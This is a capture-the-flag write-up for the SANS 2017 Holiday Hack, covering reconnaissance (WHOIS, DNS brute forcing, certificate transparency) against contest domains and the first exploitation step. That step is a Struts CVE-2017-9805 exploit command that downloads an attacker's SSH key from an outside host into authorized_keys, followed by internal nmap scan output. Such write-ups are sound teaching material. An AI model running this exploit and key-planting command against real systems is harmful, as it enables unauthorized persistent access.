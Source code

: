 #+TITLE: SANS 2017 Holiday Hack Writeup
#+AUTHOR: Vlad Grigorescu
#+EMAIL: vladg@illinois.edu
#+OPTIONS: timestamp:nil num:nil ^:nil toc:2 exports:both
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://www.pirilampo.org/styles/readtheorg/css/htmlize.css"/>
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://www.pirilampo.org/styles/readtheorg/css/readtheorg.css"/>
#+HTML_HEAD: <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.1.3/jquery.min.js"></script>
#+HTML_HEAD: <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.4/js/bootstrap.min.js"></script>
#+HTML_HEAD: <script type="text/javascript" src="js/readtheorg.js"></script>
#+HTML_HEAD: <style>#content{max-width:1200px;}</style>
* Introduction
* Answers
* Pre-contest Reconnaissance
#+CAPTION: SANS Holiday Hack Challenge December 5th Update
[[./images/sans_holiday_hack_preview.png]]

On December 5th, the SANS Holiday Hack Challenge was updated to tell
us that the 2017 Hack was coming soon, and encouraging us to catch up
on past challenges. The next day, we started doing just that. In
addition to reviewing previous challenges, we also began some
reconnaissance for the 2017 challenge.

Recon is a crucial step of any good penetration test, and is one that
often gets skipped in a "Capture the Flag" type of competition, since
most of the information is provided. Nevertheless, let's see what we
can find. The more information we have ahead of time, the better
prepared we'll be, and the less work we'll have to do during the
actual contest.

Much like how attackers will have indicators of compromise (IOCs)
which allow us to track and follow an individual attacker, the Counter
Hack team also does similar things every year, and will leave behind
some clues.

** Whois Searching
 For example, the 2016 contest made use of the domain
 www.northpolewonderland.com. We can look at publicly available WHOIS
 data for that domain:

 #+BEGIN_SRC sh
 whois northpolewonderland.com | grep Registrant
 #+END_SRC

 #+BEGIN_EXAMPLE
 Registrant Name: Edward Skoudis
 Registrant Organization: Counter Hack
 Registrant Street: 2402 Alexandra Court
 Registrant City: Howell
 Registrant State/Province: New Jersey
 Registrant Postal Code: 07731
 Registrant Country: US
 Registrant Phone: +1.7327511024
 Registrant Phone Ext:
 Registrant Fax: +1.7327511024
 Registrant Fax Ext:
 Registrant Email: edskoudis@yahoo.com
 #+END_EXAMPLE

 There are a few services that allow you to do a "reverse WHOIS"
 search, to search for domains by WHOIS data. For instance to search
 for other domains where "edskoudis@yahoo.com" shows up in the contact
 info: 

 | Domain Name                      | Creation Date | Registrar               |
 |----------------------------------+---------------+-------------------------|
 | northpolechristmastown.com       |    2017-10-19 | GODADDY.COM, LLC        |
 | 1hrctf.com                       |    2016-04-08 | GODADDY.COM, LLC        |
 | 1hrctf.org                       |    2016-04-08 | GODADDY.COM, LLC        |
 | cranbian.org                     |    2016-11-22 | GODADDY.COM, LLC        |
 | hackfestchallenge.com            |    2016-10-20 | GODADDY.COM, LLC        |
 | onehourctf.org                   |    2016-04-08 | GODADDY.COM, LLC        |
 | atnascorp.com                    |    2015-11-10 | GODADDY.COM, LLC        |
 | ginormouselectronicssupplier.com |    2015-12-09 | GODADDY.COM, LLC        |
 | holidayhackchallenge.com         |    2015-11-02 | GODADDY.COM, LLC        |
 | holidayhackchallenge.org         |    2015-11-02 | GODADDY.COM, LLC        |
 | digimeme.org                     |    2013-11-18 | GODADDY.COM, LLC        |
 | syn-pi.org                       |    2013-11-18 | GODADDY.COM, LLC        |
 | pseudovision.net                 |    2010-09-09 | GODADDY.COM, LLC        |
 | counterhack.net                  |    2001-06-22 | NETWORK SOLUTIONS, LLC. |
 | skoudis.com                      |    2001-06-22 | NETWORK SOLUTIONS, LLC. |
 | counterhack.com                  |    2000-05-30 | GODADDY.COM, LLC        |

 This isn't comprehensive, since northpolewonderland.com didn't show up
 in the results, but cranbian.org was another domain from 2016 that
 does show up.

 There are a couple of new entries since the 2016 contest, 1hrctf and
 northpolechristmastown.com. 1hrctf seems unrelated, but it's a good
 bet that northpolechristmastown.com will show up in the 2017
 challenge.

 At this point, we have to proceed with extreme caution. Since the
 contest hasn't started, nothing is in scope yet. Any further digging
 should be as unintrusive as possible.

** DNS Brute Forcing
 Now that we have a domain we're interested in, let's look at DNS:

 #+BEGIN_SRC sh
 dig ANY northpolechristmastown.com
 #+END_SRC

 #+BEGIN_EXAMPLE
 ;; ANSWER SECTION:
 northpolechristmastown.com. 5	IN	TXT	"v=spf1 include:_spf.google.com -all"
 northpolechristmastown.com. 5	IN	MX	30 ALT2.ASPMX.L.GOOGLE.com.
 northpolechristmastown.com. 5	IN	MX	40 ASPMX2.GOOGLEMAIL.com.
 northpolechristmastown.com. 5	IN	MX	20 ALT1.ASPMX.L.GOOGLE.com.
 northpolechristmastown.com. 5	IN	MX	50 ASPMX3.GOOGLEMAIL.com.
 northpolechristmastown.com. 5	IN	MX	10 ASPMX.L.GOOGLE.com.
 northpolechristmastown.com. 5	IN	SOA	ns53.domaincontrol.com. dns.jomax.net. 2017120112 28800 7200 604800 600
 northpolechristmastown.com. 5	IN	NS	ns54.domaincontrol.com.
 northpolechristmastown.com. 5	IN	NS	ns53.domaincontrol.com.
 #+END_EXAMPLE

 From this, we can tell that GMail provides the e-mail for the domain,
 and GoDaddy provides the DNS service. Of note, however, is that there
 are no A or AAAA records, so northpolechristmastown.com does not
 resolve to anything.

 Next, we'll try some Google dorking. Googling for
 site:northpolechristmastown.com reveals
 nppd.northpolechristmastown.com, which is a Sign In page for the
 North Pole Police Department. It looks like nppd uses Google OAuth
 for authentication, and most pages are forbidden with a regular GMail
 account.

 Checking a few other common URLs on nppd, we can find some resources
 that are available, including favicon.ico and robots.txt:
 #+BEGIN_SRC
 User-agent: hk-47
 Disallow: /
 Disallow: /needhelp
 Disallow: /infractions
 Disallow: /community
 Disallow: /about

 User-agent: threepio
 Sand-Crawler-delay: 421

 User-agent: artoo
 Sand-Crawler-delay: 2187
 #+END_SRC

#+CAPTION: North Pole Police Department Logo
[[./images/nppd_star.png]]

 Everything here but /infractions is forbidden. Looking at that page
 returns a list of infractions, such as "Unauthorized access to cookie
 jar" or "Computer infraction: Accessing siblings files without
 permission." We also see some interesting infractions that refer to
 previous Holiday Hacks:

 #+BEGIN_EXAMPLE
	 {
             "date": "2016-12-25T00:00:00",
             "name": "Dr. Who",
             "severity": 5.0,
             "status": "closed",
             "title": "Trying to ruin Christmas"
         },
	 {
             "date": "2015-12-25T00:00:00",
             "name": "Cindy Lou Who",
             "severity": 5.0,
             "status": "closed",
             "title": "Trying to ruin Christmas"
         }
     ],
     "query": "name:Who"
 #+END_EXAMPLE

 Going back to DNS< we can try to enumerate some hosts under the top
 level domain. FuzzDB has a nice list of common DNS name, and we can
 use an nmap script to try to query those:

 #+BEGIN_SRC sh
 $ nmap --script dns-brute --script-args dns-brute.domain=northpolechristmastown.com,dns-brute.threads=1,dns-brute.hostlist=fuzzdb/discovery/dns/dnsmapCommonSubdomains.txt
 #+END_SRC

 #+BEGIN_EXAMPLE
 Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-06 18:54 CST
 Stats: 0:00:06 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
 NSE Timing: About 0.00% done
 Pre-scan script results:
 | dns-brute:
 |   DNS Brute-force hostnames:
 |     intranet.northpolechristmastown.com - 35.196.239.128
 |     files.northpolechristmastown.com - 35.185.43.23
 |     dev.northpolechristmastown.com - 35.185.84.51
 |     admin.northpolechristmastown.com - 35.185.115.185
 |_    mail.northpolechristmastown.com - 35.185.115.185
 #+END_EXAMPLE

A couple of other lists resulted in the following hostnames as well:

#+BEGIN_EXAMPLE
|   DNS Brute-force hostnames:
|     emi.northpolechristmastown.com - 35.185.57.190
|_    ewa.northpolechristmastown.com - 35.185.115.185
#+END_EXAMPLE

** Certificate Transparency Logs

 Next, let's turn our attention to the holidayhackchallenge.com
 domain. Last year, there were some new hosts that appeared under this
 domain (e.g. quest2016.holidayhackchallenge.com). Brute-forcing this
 will likely not get us very far, so let's try a different approach:
 certificate transparency logs. Many certificate authorities maintain
 transparency systems, so that issued certificates can be publicly
 reviewd. Symantec, for instance, has a free tool that will search the
 logs of several certificate authorities:

#+CAPTION: Symantec Crypto Report for holidayhackchallenge.com
[[./images/recon_crypto_report.png]]

Searching for holidayhackchallenge.com reveals the following
certificates that don't look familiar:

 | Common Name                         | Subject Alternate Names (SANs) |             IP |
 |-------------------------------------+--------------------------------+----------------|
 | 2017.holidayhackchallenge.com       | 2017, puzzler2017              |  35.196.67.150 |
 | docker2017.holidayhackchallenge.com |                                | 35.190.163.207 |
 | chat.holidayhackchallenge.com       |                                |  35.196.73.180 |

** Monitoring

None of the 3 servers listed above are currently accessible on port 80
or 443 (HTTP and HTTPS). We setup some monitoring using a free online
service (uptimerobot.com). Every 5 minutes, it would try to connect to
HTTP and HTTPs on the 3 servers listed above. Once the systems become
available, it will text us and post a message to our Slack channel.

Once that happens, the hack is on, and we'll be ready to hit the
ground running.

** Recon Summary

We can use the following indicators to search any clues we're later provided with:

| Indicator                            | Type      | Source                 |
|--------------------------------------+-----------+------------------------|
| northpolechristmastown.com           | Domain    | Reverse WHOIS          |
| holidayhackchallenge.com             | Domain    | 2016 Hack              |
| nppd.northpolechristmastown.com      | FQDN      | Google Search          |
| intranet.northpolechristmastown.com  | FQDN      | DNS Brute Force        |
| files.northpolechristmastown.com     | FQDN      | DNS Brute Force        |
| dev.northpolechristmastown.com       | FQDN      | DNS Brute Force        |
| admin.northpolechristmastown.com     | FQDN      | DNS Brute Force        |
| mail.northpolechristmastown.com      | FQDN      | DNS Brute Force        |
| emi.northpolechristmastown.com       | FQDN      | DNS Brute Force        |
| ewa.northpolechristmastown.com       | FQDN      | DNS Brute Force        |
| 2017.holidayhackchallenge.com        | FQDN      | Cert Transparency      |
| puzzler2017.holidayhackchallenge.com | FQDN      | Cert SAN               |
| docker2017.holidayhackchallenge.com  | FQDN      | Cert Transparency      |
| chat.holidayhackchallenge.com        | FQDN      | Cert Transparency      |
| 35.185.43.23                         | IP        | DNS (files)            |
| 35.185.57.190                        | IP        | DNS (emi)              |
| 35.185.84.51                         | IP        | DNS (dev)              |
| 35.185.115.185                       | IP        | DNS (admin, mail, ewa) |
| 35.190.163.207                       | IP        | DNS (docker2017)       |
| 35.196.67.150                        | IP        | DNS (2017)             |
| 35.196.73.18                         | IP        | DNS (chat)             |
| 35.196.239.128                       | IP        | DNS (intranet)         |
| HK-47 (Star Wars Droid)              | Reference | nppd robots.txt        |
| Artoo (Star Wars Droid)              | Reference | nppd robots.txt        |
| Threepio (Star Wars Droid)           | Reference | nppd robots.txt        |
| Sand-Crawler (Star Wars Vehicle)     | Reference | nppd robots.txt        |
| North Pole Police Department         | Reference | nppd /infractions      |
| Cindy Lou Who (2015 Hack)            | Reference | nppd /infractions      |
| Dr. Who (2016 Hack)                  | Reference | nppd /infractions      |

* Let the Hack Begin!
** Gaining Access to L2S
The SAN cert showed it the was the same as dev.northpolechristmastown.com.

TODO: Justin - how did you figure out it was Struts?

Used the Python tool in the SANS blog post:

#+BEGIN_SRC sh
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'mkdir /home/alabaster_snowball/.ssh; cd /home/alabaster_snowball/.ssh; wget http://1.2.3.4/a.key -O authorized_keys; chmod 600 authorized_keys; chmod 700 .'
#+END_SRC

#+BEGIN_SRC sh
ssh l2s | tee nmap.out
#+END_SRC

#+BEGIN_SRC 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-15 02:26 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00020s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http     nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.10.3
|_http-title: Did not follow redirect to https://hhc17-l2s-proxy.c.holidayhack2017.internal/
443/tcp  open  ssl/http nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Issuer: commonName=Let's Encrypt Authority X3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-29T12:54:54
| Not valid after:  2018-02-27T12:54:54
| MD5:   90b5 5b73 6e21 e00f 0247 b22d a1ec f953
|_SHA-1: c089 30bf cd61 3a55 ea8f f419 2542 b9b4 9823 8fb1
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
2222/tcp open  ssh      OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http    nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Toys List
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Host is up (0.00021s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ac:cc:7c:b1:cb:56:0b:bc:cd:05:12:36:e7:24:ca (RSA)
|_  256 9f:4e:9a:ee:dc:ef:f4:4b:6d:1b:03:58:bb:5d:a2:87 (ECDSA)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp   open  http    nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/cookie.txt
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
143/tcp  open  imap    Dovecot imapd
|_imap-capabilities: OK ID IDLE LITERAL+ AUTH=PLAIN more have capabilities listed post-login LOGIN-REFERRALS Pre-login AUTH=LOGINA0001 ENABLE SASL-IR IMAP4rev1
2525/tcp open  smtp    Postfix smtpd
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host:  mail.northpolechristmastown.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00017s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 33:fb:b7:35:b5:7a:72:6f:06:91:21:ff:e2:3e:86:79 (RSA)
|_  256 70:71:ea:71:cd:83:d8:47:29:ef:6f:69:f3:8a:ed:a2 (ECDSA)
80/tcp   open  http    nginx 1.10.3
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
| http-robots.txt: 1 disallowed entry 
|_/dev
|_http-server-header: nginx/1.10.3
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://edb.northpolechristmastown.com/index.html
389/tcp  open  ldap
| fingerprint-strings: 
|   LDAPBindReq: 
|     Version 2 not supported
|   LDAPSearchReq: 
|     supportedLDAPVersion1
|     namingContexts1
|     dc=com0/
|     supportedExtension1
|_    1.3.6.1.4.1.4203.1.11.10
8080/tcp open  http    Werkzeug httpd 0.12.2 (Python 2.7.13)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
| http-robots.txt: 1 disallowed entry 
|_/dev
|_http-server-header: Werkzeug/0.12.2 Python/2.7.13
|_http-title: Did not follow redirect to http://edb.northpolechristmastown.com/index.html
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port389-TCP:V=7.40%I=7%D=12/15%Time=5A3332D9%P=x86_64-pc-linux-gnu%r(LD
SF:APSearchReq,83,"0s\x02\x01\x07dn\x04\x000j0\x1b\x04\x14supportedLDAPVer
SF:sion1\x03\x04\x0130\x1a\x04\x0enamingContexts1\x08\x04\x06dc=com0/\x04\
SF:x12supportedExtension1\x19\x04\x171\.3\.6\.1\.4\.1\.4203\.1\.11\.10\x0c
SF:\x02\x01\x07e\x07\n\x01\0\x04\0\x04\0")%r(LDAPBindReq,25,"0#\x02\x01\x0
SF:1a\x1e\n\x01\x02\x04\0\x04\x17Version\x202\x20not\x20supported");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Host is up (0.00081s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-smb-server
| Issuer: commonName=hhc17-smb-server
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-06T13:46:55
| Not valid after:  2018-05-08T13:46:55
| MD5:   092f 018a 083a b87a 8186 ecac da4e 09e2
|_SHA-1: 0a0d f4e6 765f 1818 cd32 4bf2 5212 e8ca ef51 5c38
|_ssl-date: 2017-12-15T02:27:40+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http    nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Toys List
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Host is up (0.00089s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Index - North Pole Engineering Presents: EaaS!
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-elf-manufacturing
| Issuer: commonName=hhc17-elf-manufacturing
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-23T20:53:55
| Not valid after:  2018-05-25T20:53:55
| MD5:   a711 f240 0c9e a8cd 3be4 81fa fa16 f15a
|_SHA-1: 5728 6c5d 2ec0 6657 629b f9f4 72aa 0b3d 12d4 b3a5
|_ssl-date: 2017-12-15T02:27:40+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 02:27
Completed NSE at 02:27, 0.00s elapsed
Initiating NSE at 02:27
Completed NSE at 02:27, 0.00s elapsed
Post-scan script results:
| clock-skew: 
|   0s: 
|     10.142.0.13 (eaas.northpolechristmastown.com)
|_    10.142.0.8 (hhc17-emi.c.holidayhack2017.internal)
| ssh-hostkey: Possible duplicate hosts
| Key 2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA) used by:
|   10.142.0.2
|   10.142.0.3
|   10.142.0.11
| Key 256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA) used by:
|   10.142.0.2
|   10.142.0.3
|_  10.142.0.11
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (7 hosts up) scanned in 86.82 seconds
#+END_SRC
